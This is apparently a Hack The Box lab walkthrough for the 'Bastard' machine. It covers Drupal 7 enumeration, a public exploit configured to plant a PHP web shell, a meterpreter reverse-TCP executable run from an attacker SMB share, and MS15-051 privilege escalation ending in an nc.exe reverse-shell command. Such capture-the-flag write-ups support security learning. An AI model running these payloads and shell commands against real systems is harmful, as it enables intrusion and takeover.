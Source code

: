# Bastard - Hack The Box Walkthrough

**Target IP**: `10.10.10.9`  
**Hostname**: `bastard.htb`  

---

## Initial Setup

### Preparing the Environment
1. Store the target IP in a file for reuse:
   ```bash
   echo 10.10.10.9 > target
   ```
2. Add the target to your `/etc/hosts` file for easier navigation:
   ```
   10.10.10.9   bastard.htb
   ```

---

## Enumeration

### Full Port Scan
I conducted a full TCP port scan to identify open ports:
```bash
nmap -p- -v -iL target -oN nmap/full_tcp_scan.txt
```

**Open Ports**:
- 80/tcp -
- 135/tcp - MSRPC
- 49154/tcp - MSRPC

```bash
nmap -p80,135,49154 -A -v -iL target -oN nmap/target_ports.txt
```

```
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
```

### Port 80

The port 80 show me a Drupal login.
You can read the version on nmap or also runngin the command:

```bash
curl -s http://bastard.htb/CHANGELOG.txt | grep -m2 ""
```

Here you can read the CHANGELOG: http://bastard.htb/CHANGELOG.txt .
Here you can read the README: http://bastard.htb/README.txt .

![image](https://github.com/user-attachments/assets/bd363a40-deab-47b1-95dc-5a3b75cb61f9)

Then I looking for known vulnerabilities:

```bash
searchsploit Drupal 7
```

I try to run several payload the only one that I successfully run was `php/webapps/41564.php`:

![Screenshot from 2025-01-11 11-03-56](https://github.com/user-attachments/assets/3ed8366f-41cc-4cbd-ac4b-5376087bf787)

I copied it locally by running:

```bash
searchsploit -m php/webapps/41564.php
```

There are some settings to change:

* url
* rest endpoint
* command to execute

![Screenshot from 2025-01-11 10-33-25](https://github.com/user-attachments/assets/645bf428-9c10-4d64-8a62-cdc6be4cef3a)

The url we already known, we need to find out the rest endpoint, to achive it I run `ffuf` command to enumerate directories:

```bash
ffuf -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
-u "http://bastard.htb/FUZZ"
```

I discover the `rest` folder and I test it with curl:

![Screenshot from 2025-01-11 11-10-34](https://github.com/user-attachments/assets/56c6d8c5-7f7d-411f-b419-0b892aa08c47)

Then I change the file settings:

```php
$url = 'http://bastard.htb';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
	'filename' => 'spread.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

![Screenshot from 2025-01-11 10-37-37](https://github.com/user-attachments/assets/89926a8b-7320-47d5-bd45-3b53a3cf250a)

To run the payload:

```bash
php 41564.php
```

But I got an error:

![Screenshot from 2025-01-11 10-38-24](https://github.com/user-attachments/assets/c26142ad-52cc-4772-9a6a-69480efc13de)

To fix it install the `php-curl` packet:

```bash
apt install php-curl
```

Then I run it again, it will create a new file:

![Screenshot from 2025-01-11 10-43-43](https://github.com/user-attachments/assets/6b036c20-f4bd-490f-ad60-1aab8978ed82)

You can test it by running:

```bash
curl "http://bastard.htb/spread.php?cmd=whoami"
```

![Screenshot from 2025-01-11 11-15-45](https://github.com/user-attachments/assets/87e6255d-b785-40bd-8a5a-73851cca01f4)

With msfvenom I generated an executable:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=8887 -f exe -o shell.exe
```

I started an smbclient:

```bash
impacket-smbserver -ip <IP> shares .
```

With msfconsole I started a handler:

```bash
use exploit/multi/handler
set LHOST <IP>
set LPORT 8887
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

And then I run, with curl, the executable:

```bash
curl "http://bastard.htb/spread.php" \
--data-urlencode 'cmd=cmd /c "\\<IP>\shares\shell.exe"' 
```

In the user directory I found the flag.

## Privile Escalation

Syteminformation:

```
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          18/1/2025, 2:52:09 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.596 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.619 MB
Virtual Memory: In Use:    476 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

You can notice `Hotfix(s)` to `N/A`, this could be a kernel exploit.

Here that one I used: [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051). Download the zip, unzip it.

From the local machine run a smbserver in your exploit path.
In the remote one test it by running:

```cmd
\\<IP>\share\ms15-051x64.exe "whoami /all"
```

Start a netcat listener:

```bash
nc -lvnp
```

Copy a netcat in your shared folder and then run:

```cmd
\\10.10.16.3\share\ms15-051x64.exe "\\10.10.16.3\share\nc.exe -e cmd.exe 10.10.16.3 443"
```

You should have root privileges.

---
